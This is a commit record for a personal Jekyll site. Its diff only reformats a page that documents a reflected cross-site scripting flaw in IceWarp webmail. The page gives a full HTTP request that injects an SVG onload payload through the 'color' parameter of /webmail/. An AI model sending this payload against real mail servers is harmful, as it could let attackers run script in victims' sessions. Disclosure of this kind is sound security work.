

Before and after one commit to lutfumertceylan/mywebsite, a Jekyll site: the page built from _exploits/2020-01-27-IceWarp-Exploit-XSS.md, in a window 1280 px wide and 1319 px high. Shown: the whole window at 84% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-01-27-IceWarp-Exploit-XSS.md

```diff
--- a/_exploits/2020-01-27-IceWarp-Exploit-XSS.md
+++ b/_exploits/2020-01-27-IceWarp-Exploit-XSS.md
@@ -25,18 +25,18 @@ tags:
 
 **GET REQUEST :**
 
-GET /webmail/?color="><svg/onload=alert("**XSS PAYLOAD**")> HTTP/1.1
-Host: **host**
-User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
-Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
-Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
-Accept-Encoding: gzip, deflate
-Cookie: **cookie**
-Connection: close
-Upgrade-Insecure-Requests: 1
+GET /webmail/?color="><svg/onload=alert("**XSS PAYLOAD**")> HTTP/1.1<br>
+Host: **targethost**<br>
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br>
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br>
+Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br>
+Accept-Encoding: gzip, deflate<br>
+Cookie: **cookie**<br>
+Connection: close<br>
+Upgrade-Insecure-Requests: 1<br>
 
 **Vulnerable Page :**
-/webmail/
+/webmail/<br>
 **Vulnerable Parameter :**
 color
 
```
